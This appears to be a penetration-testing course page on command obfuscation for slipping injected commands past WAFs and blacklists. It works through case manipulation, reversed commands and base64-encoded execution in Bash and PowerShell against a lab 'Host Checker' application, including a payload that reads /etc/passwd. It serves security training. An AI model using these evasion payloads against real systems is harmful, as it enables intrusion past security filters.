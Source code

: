 # Advanced Command Obfuscation

In some instances, we may be dealing with advanced filtering solutions, like Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work. We can utilize more advanced techniques for such occasions, which make detecting the injected commands much less likely.

***

## Case Manipulation

One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word, as Linux systems are case-sensitive.

If we are dealing with a Windows server, we can change the casing of the characters of the command and send it. In Windows, commands for PowerShell and CMD are case-insensitive, meaning they will execute the command regardless of what case it is written in:

```powershell
PS C:\htb> WhOaMi

21y4d
```

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:

```shell-session
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

As we can see, the command did work, even though the word we provided was (`WhOaMi`). This command uses `tr` to replace all upper-case characters with lower-case characters, which results in an all lower-case character command. However, if we try to use the above command with the `Host Checker` web application, we will see that it still gets blocked:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

`Can you guess why?` It is because the command above contains spaces, which is a filtered character in our web application, as we have seen before. So, with such techniques, `we must always be sure not to use any filtered characters`, otherwise our requests will fail, and we may think the techniques failed to work.

Once we replace the spaces with tabs (`%09`), we see that the command works perfectly:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are many other commands we may use for the same purpose, like the following:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

{% hint style="success" %}
**Exercise:** Can you test the above command to see if it works on your Linux VM, and then try to avoid using filtered characters to get it working on the web application?
{% endhint %}

***

## Reversed Commands

Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:

```shell-session
$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:

```shell-session
$ $(rev<<<'imaohw')

21y4d
```

We see that even though the command does not contain the actual `whoami` word, it does work the same and provides the expected output. We can also test this command with our exercise, and it indeed works:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Tip:** If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.
{% endhint %}

The same can be applied in `Windows.` We can first reverse a string, as follows:

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

***

## Encoded Commands

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):

```shell-session
$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

```shell-session
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

As we can see, the above command executes the command perfectly. We did not include any filtered characters and avoided encoded characters that may lead the command to fail to execute.

{% hint style="info" %}
**Tip:** Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.
{% endhint %}

Now we can use this command (once we replace the spaces) to execute the same command through command injection:

### **Burp POST Request**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Even if some commands were filtered, like `bash` or `base64`, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like `sh` for command execution and `openssl` for b64 decoding, or `xxd` for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell-session
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with `Bash` or `PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).
